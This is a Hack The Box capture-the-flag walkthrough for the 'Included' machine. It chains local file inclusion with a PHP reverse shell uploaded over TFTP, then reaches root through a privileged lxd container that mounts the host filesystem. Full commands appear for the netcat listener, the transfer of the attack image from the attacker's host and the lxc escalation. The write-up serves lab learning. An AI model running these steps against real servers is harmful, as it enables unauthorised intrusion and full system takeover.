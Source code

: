```yaml
---
date: 2024-11-15
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - Apache
    - PHP
---
```


# Included Writeup

First, we need to spawn the target machine.
When we open the target on browser, we will see this :
![alt text](image-18.png)

We noticed that our url changed to **/?file=home.php**, which might be vulnerable to **local file inclusion** (LFI). 
<details> <summary><strong>Local File Inclusion</strong></summary>
Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.
</br>
LFI attacks are used by attackers to trick a web application into running or exposing files on a web server. If the attack is successful, it will expose sensitive information, and in severe cases, can lead to XSS and remote code execution.
</details>

We can try different paths to check if it is indeed vulnerable. One example that we can try is `/etc/passwd` since it should exist & readable to everyone.

<details><summary><strong>About /etc/passwd</strong></summary>

<p>The `/etc/passwd` file is like the ID card for users on a Unix system! Here's why it's important:</p>

- **User Info**: Contains username, user ID (UID), group ID (GID), full name, home directory, and login shell.
- **Permissions**: Readable by all, but only admins can modify it.
- **Format**: Each user's data is on a line, separated by colons. Example:
root:*:0:0:System Administrator:/var/root:/bin/sh
- **Evolution**: Historically stored passwords, but now they’re moved to `/etc/shadow` for security.

<p>Fun fact: If changed, a backup file like `/etc/passwd-` is created automatically!</p>

</details>

![alt text](image-19.png)
and yes, here we can see the users! There are 2 interesting users here, mike and tftp. 

TFTP stands for **Trivial File Transfer Protocol**. It is a simple way to transfer files between servers and computers. TFTP is faster than some other protocols, but also less secure. It's generally used for transferring small files. TFTP runs using **UDP** with **default port 69**.

TFTP does not have built-in encryption, access control or authentication. This makes it very easy for an attacker to trick TFTP into giving access to files.
Anyone can connect, download, and upload to the remote TFTP system.
<details><summary><strong>About UDP :</strong></summary>

<p><strong>How It Works:</strong>  
UDP is a lightweight protocol that operates on top of the Internet Protocol (IP). It sends packets (units of data) directly to a target computer without establishing a connection first. This allows for faster data transfer speeds, but it can also lead to lost packets and other issues.</p>

<p><strong>When It’s Used:</strong>  
UDP is often used for time-sensitive applications like gaming, video streaming, and DNS lookups. It's also used for Remote Procedure Call (RPC) applications.</p>

<p><strong>Advantages:</strong>  
UDP is faster than other protocols and requires fewer resources. It also allows missing packets, which is useful for real-time communications.</p>

<p><strong>Disadvantages:</strong>  
UDP is less reliable than other protocols like Transmission Control Protocol (TCP). It doesn't guarantee that packets will arrive in order or be delivered at all. UDP also doesn't have congestion control mechanisms, so it can flood a network with packets if not used carefully.</p>

<p><strong>Packet Structure:</strong>  
Each UDP packet has a source port, destination port, length, checksum, and data.</p>

</details>

## Foothold
We can try to upload a script to the TFTP, and load it using the LFI vulnerability. Here, we will use [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell) (In my case, its already in **/usr/share/webshell/php/php-reverse-shell.php**). 

**Note :** edit the shell's IP first to your tun0 ip (10.10.14.61 to me), and the listening port to any port you want to listen to (I usually use 1443). To see your tun0 ip, use `ifconfig`'s tun0 inet IP.

We need to install TFTP first by :
```bash
sudo apt install tftp
```
Then, we can connect to the target's tftp and upload our shell!
![alt text](image-20.png)
After uploading, we can set up our nc listener using nc :
```bash
nc -lvnp 1443
```
Since we know that tftp home directory is `/var/lib/tftpboot` (from the `/etc/passwd` shown above), we know that our shell_php.php is uploaded there!

Hence, we can load it using curl, or just browse the path (`http://<TARGET_IP>/?file=/var/lib/tftpboot/shell_php.php`). Now, our listener connected to the shell!

![alt text](image-21.png)

We can upgrade our shell to make it look better using
```python
python3 -c "import pty; pty.spawn('/bin/bash');"
```
We are currently accessed to `www-data` user, and don't have much privileges

<details><summary>About www-data & /var/www/html</summary>
<p><strong>www-data: </strong>A default system user/group used by web servers like Apache or Nginx to run web services. It minimizes security risks by isolating web server processes from other system processes.</p>

<strong>/var/www/html:</strong> The default directory for serving web content in Linux distributions. It’s where you place website files (HTML, PHP, etc.) to make them accessible via a web server.

Together, www-data owns or manages /var/www/html to host websites securely while restricting unnecessary access.
</details>

## Privilege Escalation
Now, if we can try exploring user's capability & files, and we get this!
![alt text](image-22.png)
User `mike` might be using the same password, so we try to switch user to mike using `su`.
<div style="text-align: center;">
    <img src="image-23.png" alt="alt text" width="300">
</div>
and we're authenticated as mike!

Here is our user flag.
<div style="text-align: center;">
    <img src="image-24.png" alt="alt text" width="300">
</div>


Using `id` command, we can see that mike belongs to lxd group. Through google search, we can find about [lxd exploitations](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) and turns out we can escalate privileges to root (without any sudo rights/passwords). 

Here, I will follow the [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) page **Method 2**. (I tried using method 1 first, but the build-lxd isnt supported anymore, then I git checkout to get the previous distrobuilder, but failed again since my architecture `arm64` not supported, I gave up method 2 since it also takes me so long to download qemu & docker to emulate amd64)

**Method 1 fail compilation :**
![build-lxd missing](image-26.png)
![arm64 not supported](image-25.png)

**Method 2 :**
```bash
# Build an Alpine image and start it using the flag security.privileged=true
# forcing the container to interact as root with the host filesystem.
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```
To use these files, we need to transfer it to the target.
We can start a python http.server & get our files using wget
```
python3 -m http.server 8000
```
```
wget http://OUR_IP:8000/alpine<IMAGE_NAME_HERE>.tar.gz
```
**Note :** start it at the lxd-alpine-builder directory, since we need to get the image from target which is located there.

On our machine :
![alt text](image-27.png)

On target machine :
![alt text](image-28.png)

After transferring, we can do :
```bash
# import the image
lxc image import ./alpine<IMAGE_NAME_HERE>.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
And lastly, we can start it using this, yayayyy!!
```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
cd /mnt/root #Here is where the filesystem is mounted
```
<div style="text-align: center;">
    <img src="image-29.png" alt="alt text" width="300">
</div>

The root flag is in `/mnt/root/root/` since it's mounted there
<div style="text-align: center;">
    <img src="image-30.png" alt="alt text" width="300">
</div>

<details>
<summary><strong>What is a Mount?</strong></summary>
A mount makes a file system, directory, or device available to an operating system at a specific point in its directory tree. In this case, it links the host’s / directory to the container’s /mnt/root directory, enabling the container to access files from the host system.
</details>